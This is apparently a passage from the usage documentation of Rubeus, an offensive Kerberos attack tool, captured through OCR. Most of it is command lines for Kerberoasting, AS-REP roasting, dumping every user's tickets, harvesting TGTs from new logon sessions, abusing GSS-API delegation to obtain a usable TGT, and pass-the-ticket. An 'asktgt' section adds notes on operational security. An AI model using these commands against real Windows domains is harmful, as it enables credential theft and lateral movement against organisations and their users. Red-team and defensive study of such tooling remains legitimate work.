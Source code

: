     Purge tickets from the current logon session, optionally targeting a specific LUID (if elevated):
        Rubeus.exe purge [/luid:LOGINID]

    Parse and describe a ticket (service ticket or TGT):
        Rubeus.exe describe </ticket:BASE64 | /ticket:FILE.KIRBI>

    Create a hidden program (unless /show is passed) with random /netonly credentials, displaying the PID and LUID:
        Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" [/show]

    Perform Kerberoasting:
        Rubeus.exe kerberoast [/spn:"blah/blah"] [/user:USER] [/ou:"OU,..."]

    Perform Kerberoasting with alternate credentials:
        Rubeus.exe kerberoast /creduser:DOMAIN.FQDN\USER /credpassword:PASSWORD [/spn:"blah/blah"] [/user:USER] [/ou:"OU,..."]

    Perform AS-REP "roasting" for users without preauth:
        Rubeus.exe asreproast /user:USER [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER]

    Dump all current ticket data (if elevated, dump for all users), optionally targeting a specific service/LUID:
        Rubeus.exe dump [/service:SERVICE] [/luid:LOGINID]

    Retrieve a usable TGT .kirbi for the current user (w/ session key) without elevation by abusing the Kerberos GSS-API, faking delegation:
        Rubeus.exe tgtdeleg [/target:SPN]

    Monitor every SECONDS (default 60 seconds) for 4624 logon events and dump any TGT data for new logon sessions:
        Rubeus.exe monitor [/interval:SECONDS] [/filteruser:USER]

    Monitor every MINUTES (default 60 minutes) for 4624 logon events, dump any new TGT data, and auto-renew TGTs that are about to expire:
        Rubeus.exe harvest [/interval:MINUTES]


  NOTE: Base64 ticket blobs can be decoded with :

      [IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("aa..."))


## asktgt

The **asktgt** action will build raw AS-REQ (TGT request) traffic for the specified user and encryption key (/rc4 or /aes256). If no /domain is specified, the computer's current domain is extracted, and if no /dc is specified the same is done for the system's current domain controller. If authentication is successful, the resulting AS-REP is parsed and the KRB-CRED (a .kirbi, which includes the user's TGT) is output as a base64 blob. The /ptt flag will "pass-the-ticket" and apply the resulting Kerberos credential to the current logon session. The /luid:X flag will apply the ticket to the specified logon session ID (elevation needed).

Note that no elevated privileges are needed on the host to request TGTs or apply them to the **current** logon session, just the correct hash for the target user. Also, another opsec note: only one TGT can be applied at a time to the current logon session, so the previous TGT is wiped when the new ticket is applied when using the /ptt option. A workaround is to use the **/createnetonly:X** parameter, or request the ticket and apply it to another logon session with **ptt /luid:X**.
